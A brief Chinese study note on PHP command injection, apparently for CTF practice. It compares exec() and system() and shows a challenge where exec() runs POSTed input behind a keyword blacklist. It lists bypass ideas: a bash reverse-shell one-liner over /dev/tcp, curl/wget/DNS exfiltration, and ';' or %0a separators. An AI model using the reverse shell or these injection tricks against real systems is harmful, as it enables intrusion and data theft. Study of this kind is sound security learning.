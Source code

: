 ----

## 关于exec()和system（）的思考

```php
system("whoami")
```

有回显

```php
<?php
exec("whoami");
//没有什么显示

//我们可以采取dump输出出来
var_dump(exec("whoami"));
```

### 看一道题目

```php
<?php
highlight_file(__FILE__);
$command=$_POST['cmd'];
if(isset($command)){
    if(!preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|tee|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $command)){
        exec($command);
    }
    else{
        die("what are you doing?");
    }
}
?>
```

采用`exec()`来执行命令

- 反弹shell

```bash
bash -c "bash -i >& /dev/tcp/ip <&1"
```

- curl、wget、dns外带

- 制到网站根目录利用`cp`
- Bash盲注入---这个需要自己用Python写脚本不断练习，还在学习中

## 基本字典思路

### 多个命令执行

- `;`
- `\n   (%0a)`
